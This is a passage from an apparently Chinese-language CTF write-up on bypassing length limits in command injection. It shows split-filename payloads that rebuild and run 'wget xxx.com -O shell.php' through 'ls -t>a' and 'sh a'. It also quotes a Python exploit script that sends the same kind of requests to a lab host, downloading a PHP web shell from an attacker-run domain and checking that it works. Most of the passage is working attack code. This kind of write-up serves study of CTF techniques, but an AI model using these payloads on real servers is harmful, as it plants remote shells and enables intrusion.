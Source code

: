 ```
?1=>hp
?1=>ell.p\\
?1=>\ sh\\
?1=>\ -O\\
?1=>com\\
?1=>x.\\
?1=>\ xx\\
?1=>wget\\
?1=ls -t>a
?1=sh a
```

也就是我们上述的第二个方法写入一个`a`文件，其中`xxx.com`可以替换为自己的域名，但是这里要注意，不能以`.`开头，因为`ls -t>a`无法将隐藏文件名写入`a`。

贴一下p牛的脚本

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*- 
 
import requests 
def GetShell():
    url = "http://192.168.56.129/shell.php?1="
    fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"] 
    # linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"
    # 可以修改hosts文件，让a.cn指向一个自己的服务器。
    # 在a.cn 的根目录下创建index.html ，内容是一个php shell 
 
    for fileName in fileNames:
        createFileUrl = url+">"+fileName
        print createFileUrl 
        requests.get(createFileUrl)
 
    getShUrl = url + "ls -t>1"
    print getShUrl
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)
 
    shellUrl = "http://192.168.56.129/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print "[*] Get shell !"
    else :
        print "[*] fail!"
 
if __name__ == "__main__":
    GetShell()
```



####	Example 2	五字绕过	[HITCON CTF 2017-BabyFirst Revenge]
